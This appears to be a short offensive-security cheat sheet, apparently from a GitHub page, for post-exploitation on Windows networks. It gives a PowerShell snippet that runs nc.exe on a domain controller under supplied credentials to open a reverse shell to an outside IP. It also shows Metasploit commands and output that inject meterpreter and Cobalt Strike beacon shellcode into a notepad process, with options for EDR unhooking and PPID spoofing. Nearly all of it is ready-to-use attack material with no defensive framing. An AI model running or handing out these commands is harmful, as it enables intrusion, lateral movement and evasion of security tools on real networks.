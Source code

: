 
### Additional tricks:

```
Run process as different Powershell user:
$username = 'someuser'
$password = 'somepassword'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Invoke-Command -ComputerName DC -ScriptBlock { C:\Windows\System32\spool\drivers\color\nc.exe 10.10.1.3 443 -e cmd.exe } -Credential $credential
```

MSF and Cobalt are friend's forever

Spawn BEACON from meterpreter to Сobalt Strike

```
use exploit/windows/local/ payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 10.10.16.4
set LPORT 80
set SESSION 9
set DisablePayloadHandler True
exploit -j

Module options (exploit/windows/local/ payload_inject):
Name Current Setting Required Description
---- --------------- -----------------
NEWPROCESS true no New notepad.exe to inject to
PID 1752 no Process Identifier to inject of process to inject payload.
SESSION 2 yes The session to run this module on.
```

Spawn BEACON from meterpreter to cobalt strike v2.
We generate shellcode via Cobalt Strike -> Attacks -> Packages -> Windows Executable (S) -> raw

```
2. msf6 post(windows/manage/shellcode_inject) > show options

Module options (post/windows/manage/shellcode_inject):
Name Current Setting Required Description
---- --------------- -----------------
AUTOUNHOOK false yes Auto remove EDRs hooks
BITS 64 yes Set architecture bits (Accepted: 32, 64)
CHANNELIZED false yes Retrieve output of the process
HIDDEN true yes Spawn an hidden process
INTERACTIVE false yes Interact with the process
PID 0 no Process Identifier of process to inject the shellcode. (0 = new process)
PPID 0 no Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
SESSION yes The session to run this module on
SHELLCODE yes Path to the shellcode to execute
WAIT_UNHOOK 5 yes Seconds to wait for unhook to be executed


msf6 post(windows/manage/shellcode_inject) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
SHELLCODE = > /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > exploit
[*] Running module against WS05
[*] Spawned Notepad process 7436
[+] Successfully injected payload into process: 7436
[*] Post module execution completed
msf6 post(windows/manage/shellcode_inject) >
```

